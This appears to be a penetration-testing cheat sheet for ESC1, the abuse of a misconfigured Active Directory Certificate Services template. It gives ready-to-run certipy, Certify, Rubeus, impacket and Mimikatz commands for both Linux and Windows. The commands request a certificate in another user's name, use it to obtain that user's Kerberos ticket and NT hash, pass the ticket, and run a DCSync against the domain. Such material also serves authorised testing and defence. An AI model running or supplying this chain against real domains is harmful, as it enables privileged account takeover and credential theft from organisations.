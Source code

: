 # ESC1—Alternate Subject (SAN) on Client-Auth Template

## Theory

> [!summary] Overview
> If a certificate template allows requesters to supply the subject and specify a *subjectAltName* (SAN), and low-privileged users can enroll, an attacker can request a certificate for any user (e.g., a privileged account) by placing that user’s UPN in the SAN. The issued certificate can then be used for authentication (PKINIT) to obtain a TGT and/or the NT hash.

## Requirements (all Must Be true)

- Low-privileged principals have **Enroll** on the template.
- **Requires Manager Approval** is **False**.
- **Authorized Signatures Required** is **0**.
- Template EKUs allow authentication (e.g., **Client Authentication** / `1.3.6.1.5.5.7.3.2` or `1.3.6.1.4.1.311.20.2.2` for Smart Card Logon).
- **Enrollee supplies subject** (`ENROLLEE_SUPPLIES_SUBJECT`) is set.
- CA permits **UserSpecifiedSAN** (enrollees can set SAN).

---

## Linux

### Enumerate

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
```

Look for:

- `Enrollee Supplies Subject : True`
- `Client Authentication : True` (or EKU listing)
- `Requires Manager Approval : False`
- `Authorized Signatures Required : 0`
- Enrollment includes low-priv group (e.g., Domain Users)

### Exploit (Request Cert with Alternate SAN)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<TEMPLATE_NAME>' -upn '<ALT_UPN>'
# Output: saves '<alt>.pfx' (set your own filename as needed)
```

### Authenticate (get TGT and NT hash)

```bash
certipy auth -pfx <PFX_FILE> -username '<ALT_SAM>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# Outputs <ALT_SAM>.ccache and attempts to retrieve NT hash
```

### Use TGT (Kerberos Auth to target)

```bash
KRB5CCNAME=<ALT_SAM>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
# or psexec.py / smbexec.py with -k -no-pass
```

Note: Ensure `<TARGET_HOST_FQDN>` resolves (DNS or `/etc/hosts`).

---

## Windows

### Enumerate (Certify)

```powershell
.\Certify.exe find /vulnerable
# Check CA: 'UserSpecifiedSAN' and templates with ENROLLEE_SUPPLIES_SUBJECT, client auth EKU, no manager approval, 0 signatures, enrollable by low-priv.
```

### Enumerate (LDAP Filter for ESC1-like templates)

```powershell
Get-ADObject -LDAPFilter `
'(&(objectclass=pkicertificatetemplate)
  (!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))
  (|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))
  (|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)
    (pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)
    (pkiextendedkeyusage=1.3.6.1.5.2.3.4))
  (mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' `
-SearchBase "CN=Configuration,<FOREST_DN>"
```

### Exploit (Request Cert with Alternate SAN)

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<ALT_UPN> > cert.pem
```

### Convert to PFX (Windows OpenSSL or Linux)

```powershell
# Windows (path may vary) — set/leave export password as desired
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out cert.pfx
```

### Authenticate and Extract Creds (Rubeus)

```powershell
.\Rubeus.exe asktgt /user:<ALT_SAM> /certificate:cert.pfx /getcredentials /nowrap
# Returns base64 TGT (kirbi) and NTLM if available
```

### Use Ticket (Pass-the-Ticket)

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
# In the shown PowerShell session:
.\Rubeus.exe ptt /ticket:<BASE64_TGT_HERE>
```

### Example Post-exploitation

```powershell
# With TGT loaded, perform privileged actions, e.g., DCSync:
# (Use your preferred tooling/workflow)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\<ALT_SAM>"'
```

**Notes**

- `<CA_NAME>` for `certipy req` is the CA common name (as shown by `certipy find`). For `Certify.exe request`, use `<CA_FQDN>\<CA_NAME>`.
- Ensure time sync and domain resolution.
